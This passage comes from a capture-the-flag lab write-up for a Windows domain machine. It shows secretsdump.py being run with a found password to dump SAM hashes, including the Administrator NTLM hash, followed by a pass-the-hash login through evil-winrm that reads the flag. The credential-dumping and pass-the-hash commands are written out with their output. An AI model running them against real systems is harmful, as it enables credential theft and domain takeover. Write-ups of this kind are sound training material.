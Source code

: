 - Compare this output with the output that we got when using `anonymous` as username and you'll see the difference.

---

## 👑 Root Privilege Escalation

- Perfect, now dump those hashes again and login as Administrator. After that just read the flag.

  ```
  secretsdump.py VULNNET-RST.local/a-whitehat:bNdKVkjv3RR9ht@10.10.205.21 

  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  [-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
  [SNIP!]
  ```

  ```
  evil-winrm -i 10.10.205.21 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d
                                        
  Evil-WinRM shell v3.7
                                          
  Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                          
  Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                          
  Info: Establishing connection to remote endpoint
  *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
  vulnnet-rst\administrator
  
  *Evil-WinRM* PS C:\Users\Administrator> cd Desktop
  *Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
  
  
      Directory: C:\Users\Administrator\Desktop
  
  
  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  -a----        3/13/2021   3:34 PM             39 system.txt
  
  
  *Evil-WinRM* PS C:\Users\Administrator\Desktop> cat system.txt
  THM{16f45e3934293a57645f8d7bf71d8d4c}
  ```

---
